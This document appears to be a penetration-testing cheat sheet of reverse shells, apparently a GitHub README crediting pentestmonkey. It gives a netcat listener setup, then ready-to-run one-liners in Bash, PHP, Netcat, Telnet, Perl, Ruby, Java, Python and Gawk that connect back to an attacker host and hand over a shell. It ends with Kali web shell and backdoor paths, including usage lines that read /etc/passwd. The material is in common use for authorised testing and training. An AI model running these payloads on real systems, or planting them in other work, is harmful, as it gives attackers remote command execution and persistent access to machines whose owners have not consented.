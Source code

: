 # Reverse Shells

## Content
* [Setup Netcat listener](Setup-listening-netcat)
* [Bash](#Bash-Reverse-Shells)
* [PHP](#PHP-Reverse-Shell)
* [Netcat](#Netcat-Reverse-Shell)
* [Telnet](#Telnet-Reverse-Shell)
* [Perl](#Perl-Reverse-Shell)
* [Ruby](#Ruby-Reverse-Shell)
* [Java](#Java-Reverse-Shell)
* [Python](#Python-Reverse-Shell)
* [Gawk](#Gawk-Reverse-Shell)
* [Kali](#Kali-Web-Shells)

### Setup Listening Netcat

Your remote shell will need a listening netcat instance in order to connect back.
Set your Netcat listening shell on an allowed port

Use a port that is likely allowed via outbound firewall rules on the target network, e.g. 80 / 443

To setup a listening netcat instance, enter the following:
```shell
root@kali:~# nc -nvlp 80
nc: listening on :: 80 ...
nc: listening on 0.0.0.0 80 ...
```
NAT requires a port forward

If you're attacking machine is behing a NAT router, you'll need to setup a port forward to the attacking machines IP / Port.

ATTACKING-IP is the machine running your listening netcat session, port 80 is used in all examples below (for reasons mentioned above).

### Bash Reverse Shells
```shell
exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  
```
Or:
```shell
while read line 0<&5; do $line 2>&5 >&5; done

bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```
### PHP Reverse Shell

A useful PHP reverse shell:
```php
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```
### Netcat Reverse Shell
```shell
nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
### Telnet Reverse Shell
```shell
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```
Remember to listen on 443 on the attacking machine also.

## Perl Reverse Shell
```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Perl Windows Reverse Shell
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Ruby Reverse Shell
```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java Reverse Shell
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python Reverse Shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Gawk Reverse Shell
```shell
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
## Kali Web Shells

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.
### Kali PHP Web Shells

Kali PHP reverse shells and command shells:
Command 	Description
```shell
/usr/share/webshells/php/
php-reverse-shell.php
```

Pen Test Monkey - PHP Reverse Shell
```shell
/usr/share/webshells/
php/php-findsock-shell.php

/usr/share/webshells/
php/findsock.c
```

Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80

```shell
/usr/share/webshells/
php/simple-backdoor.php
```

PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple-
backdoor.php?cmd=cat+/etc/passwd

```shell
/usr/share/webshells/
php/php-backdoor.php
```

Larger PHP shell, with a text input box for command execution.
Tip: Executing Reverse Shells

The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.

### Kali Perl Reverse Shell

Kali perl reverse shell:
Command 	Description
```shell
/usr/share/webshells/perl/
perl-reverse-shell.pl
```

Pen Test Monkey - Perl Reverse Shell
```shell
/usr/share/webshells/
perl/perlcmd.cgi
```

Pen Test Monkey, Perl Shell. Usage: http://target.com/perlcmd.cgi?cat /etc/passwd


Kali Coldfusion Shell:
Command 	Description
```shell
/usr/share/webshells/cfm/cfexec.cfm
```

Cold Fusion Shell - aka CFM Shell

### Kali ASP Shell

Classic ASP Reverse Shell + CMD shells:
Command 	Description
```shell
/usr/share/webshells/asp/
```
Kali ASPX Shells

ASP.NET reverse shells within Kali:
Command 	Description
```shell
/usr/share/webshells/aspx/
```

### Kali JSP Reverse Shell

Kali JSP Reverse Shell:
Command 	Description
```shell
/usr/share/webshells/jsp/jsp-reverse.jsp
```

Special thanks *@[pentestmonkey](https://twitter.com/pentestmonkey)*
